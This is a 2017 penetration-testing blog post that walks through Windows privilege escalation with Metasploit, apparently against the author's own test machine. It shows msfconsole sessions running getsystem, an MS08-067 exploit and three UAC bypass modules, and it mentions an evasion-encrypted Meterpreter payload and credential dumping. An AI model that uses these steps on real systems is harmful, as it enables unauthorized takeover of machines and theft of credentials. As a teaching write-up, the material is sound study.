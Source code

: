 ```yaml
---
title: Privilege Escalation in Windows
subtitle: A Closer Look at Metasploit's Sweet Spots
date: 2017-05-14 00:00:00 Z
layout: post
comments: true
author: Alan
---
```


Dusting off `msfconsole` and the Metasploit framework itself, it was time for me to get back on my feet with penetration testing.

With the recent ransomware [WannaCry](http://www.cnn.com/2017/05/14/opinions/wannacrypt-attack-should-make-us-wanna-cry-about-vulnerability-urbelis/) spreading throughout the globe, I pondered upon the question on how malware is able to attain system-level privileges on a Windows machine, locking it down, and making it near-impossible to circumvent.

When utilizing Metasploit against Windows targets, its essential to escalate user privileges to __SYSTEM__, otherwise being stuck on a user account with regular permissions limit the pentest. As penetration testers, privilege escalation is considered the most critical point of the post-exploitation step, and all the hard work from gaining initial access, maintaining persistence and circumventing the anti-virus will all seem meaningless.

What are some fun things we can do once we attain __SYSTEM__?

* Attain passwords, including hashes for any accounts on the system ('hashdump')
* Change passwords, create users and change permissions (even administration)
* Pivot to other workstations

A lot of the higher system-level functions of Metasploit rely on gaining system. Many penetration testers work immediately at privilege escalation once the machine is pwn`ed.

Metasploit's `meterpreter` console comes with some built-in Ruby scripts that can already help with the process.

    msf exploit(ms08_067_netapi) > exploit
    ...
    meterpreter > getsystem

In this case, I utilized the built in `getsystem` script. Well, what __exactly__ does `getsystem` do? `getsystem` works on three different techniques. Although I won't go in detail about how they work, Cobalt Strike (a Metasploit GUI framework) wrote a [great blog post](https://blog.cobaltstrike.com/2014/04/02/what-happens-when-i-type-getsystem/) about it.

This exploit, CVE-2008-4250, is one of the staples of vulnerabilities in the early Windows XP operating systems. Yes, Windows __XP__. What happens if we attempt to gain privileges on a pwn'ed Windows 8 or 10 machine?


    msf exploit(handler) > exploit
    ...
    meterpreter > getsystem
    [-] priv_elevate_getsystem: Operation failed: The environment is incorrect. The following was attempted:
    [-] Named Pipe Impersonation (In Memory/Admin)
    [-] Named Pipe Impersonation (Dropper/Admin)
    [-] Token Duplication (In Memory/Admin)

Using a standard Veil-Evasion encrypted Meterpreter payload binary, I gained physical access inside my test Windows 10 machine. Not as fun as fileless access, but gets the work done. However, when we attempt to utilize `getsystem` this time, all three methods of it ceased to work. Even doing `getprivs` doesn't yield us that many permissions.

    meterpreter > getprivs
    ============================================================
    Enabled Process Privileges
    ============================================================
    SeShutdownPrivilege
    SeChangeNotifyPrivilege
    SeUndockPrivilege

And keep in mind that this is a standard Windows 10 machine WITHOUT any AVs except for the standard Windows Defender. So, what happened?

## User Account Control

Now's a great time to talk about Window's UAC, or User Account Control feature. This feature was implemented as a security feature such that hackers are not able to gain privileges. This means that in order for a regular user to utilize some sort of service of application that is available exclusively to the administrator, a popup prompt will pop out requesting authentication as a Administrator. Sounds familiar? You definitely has seen UAC before, with all its warnings about unknown publishers for some applications, turning off certain features in the Windows settings, etc.

![uac](http://bit.ly/2qGTpjE)

On Windows 10, UAC has become much more stricter, such that impersonating SYSTEM with `getsystem` becomes much harder ... but not impossible. 

## A Few Methods to Bypass UAC

In order to circumvent this, we need to rely on some different techniques. 

### Windows Escalate UAC Protection Bypass

This is a method which spawns a new shell session with UAC disabled as a process. This attack works, however, on the basis that UAC is set as "Notify me only when programs try to make changes to my computer", which is standard for many operating systems.

 Let's background our current `meterpreter` session and load it up.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac
    msf(bypassuac) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64
    
    msf(bypassuac) > set TARGET 1
    TARGET => 1
    msf(bypassuac) > set SESSION 2
    SESSION => 2
    msf(bypassuac) > exploit
    ...

Once complete, we are able to `getsystem` as we did previously.

Of course, this may not totally work. If UAC is set to "Always Notify", loading this process as part of memory will fail. Therefore, if you use a build of Windows that is Vista it will not work, as this is feature is default. In this case, the attack against my Windows 10 build failed

    msf exploit(bypassuac) > exploit

    [*] Started reverse TCP handler on 192.168.1.170:4444 
    [-] Exploit aborted due to failure: not-vulnerable: Windows 10 (Build 14393). is not vulnerable.
    [*] Exploit completed, but no session was created.


### Windows Escalate UAC Protection Bypass (In Memory Injection)

This exploit aims to to inject a DLL binary through the Reflective DLL Injection technique. Similar to the previous exploit, it is important to specify the architecture of the machine.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/bypassuac_injection
    msf(bypassuac_injection) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(bypassuac_injection) > set TARGET 0
    TARGET => 0
    msf(bypassuac_injection) > set SESSION 2
    SESSION => 2
    msf(bypassuac_injection) > exploit
    ...

### Windows Escalate UAC Execute RunAs

This last exploit was actually from [this Metasploitation video](https://www.youtube.com/watch?v=OqmxRIqC3FE&feature=youtu.be) and was conceived by Hak5's [mubix](https://room362.com/). I find this privilege escalation method the most effective, but it does add on a caveat of the target user having to explicitly click on a UAC notification. This exploit calls upon the Windows `ShellExecute` function to start a shell with UAC-bypassed privileges. Once again, it is important that you set the necessary target architecture.

    meterpreter > background
    [*] Backgrounding session 2...
    msf(handler) > use exploit/windows/local/ask
    msf(ask) > show targets

    Exploit targets:

       Id  Name
       --  ----
       0   Windows x86
       1   Windows x64

    msf(ask) > set TARGET 0
    TARGET => 0
    msf(ask) > set SESSION 2
    SESSION => 2
    msf(ask) > exploit
    ...

Once executed, UAC will give a prompt to a user. Once completed, the exploit finishes, and you are able to `getsystem`.

---

Thanks for reading this article! Although I had fun getting my feet wet with Metasploit again, I still am reminded about how uninformed I am about the Win API, and really want to dive into binary exploitation, as well as acquainting myself with the Windows architecture for security-oriented purposes. With that said, expect some more fun stuff in the future combining both penetration testing and programming!

With that said, stay safe and good luck with your endeavors!